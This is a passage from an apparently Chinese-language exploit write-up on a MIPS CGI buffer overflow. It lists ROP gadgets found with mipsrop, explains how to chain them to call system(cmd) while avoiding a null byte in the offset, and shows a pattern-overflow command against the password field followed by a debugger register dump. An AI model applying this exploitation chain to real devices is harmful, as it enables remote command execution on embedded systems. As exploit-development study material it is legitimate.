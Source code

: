 ```
|  0x00016824  |  addiu $s5,$sp,0x15C+var_14C                         |  jalr  $s0                             |
|  0x000169C4  |  addiu $s2,$sp,0x170+var_158                         |  jalr  $s0                             |
```

```sh
#gadget1
#利用下面这段汇编，通过将cmd写到$sp+0x14C+var_13C处，其地址会赋值给$s5，然后作为参数传递给$s0指向的函数地址（我们将$0覆盖成system的地址），就可以实现system(cmd)
.text:000159CC addiu   $s5, $sp, 0x14C+var_13C
.text:000159D0 move    $a1, $s3
.text:000159D4 move    $a2, $s1
.text:000159D8 move    $t9, $s0
.text:000159DC jalr    $t9
.text:000159E0 move    $a0, $s5
```

因为`system`函数地址offset_system的低字节是0x00会产生截断，所以我们需要找一段gadget2对保存跳转地址的$s0的进行操作，使其将不含0x00的数值操作成offset_system

```
Python>mipsrop.find("addiu $s0,1")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x000158C8  |  addiu $s0,1                                         |  jalr  $s5                             |
|  0x000158D0  |  addiu $s0,1                                         |  jalr  $s5                             |
|  0x0002374C  |  addiu $s0,1                                         |  jalr  $fp                             |
|  0x0002D194  |  addiu $s0,1                                         |  jalr  $s5                             |
|  0x00032A98  |  addiu $s0,1                                         |  jalr  $s1                             |
```

```sh
#gadget2
#这段汇编中通过可控的$s5跳转到下一个gadget，这个过程中还会对$s0进行+1操作,通过合格gadget我们就可以将$s0=offset_system-0x1
.text:000158C8                 move    $t9, $s5
.text:000158CC                 jalr    $t9
.text:000158D0                 addiu   $s0, 1
```

gadget2的地址应该是0x000158C8+offset_lib，下面是用patternLocOffset.py生成的字符串覆盖寄存器的情况

```sh
sudo ./cgi_run.sh `python -c "print 'id=1234&password='+open('test','r').read(1200)"`
pwndbg> i r
V0   0x0
*V1   0x4b
*A0   0x76ffe1d0 —▸ 0x767ae4e0 ◂— 0x0
*A1   0x1
*A2   0x42e000 ◂— 0x0
*A3   0x20
*T0   0x767ab4c8 ◂— 0x4b /* 'K' */
*T1   0x1f49
*T2   0x2
*T3   0x24
*T4   0x25
*T5   0x807
*T6   0x800
```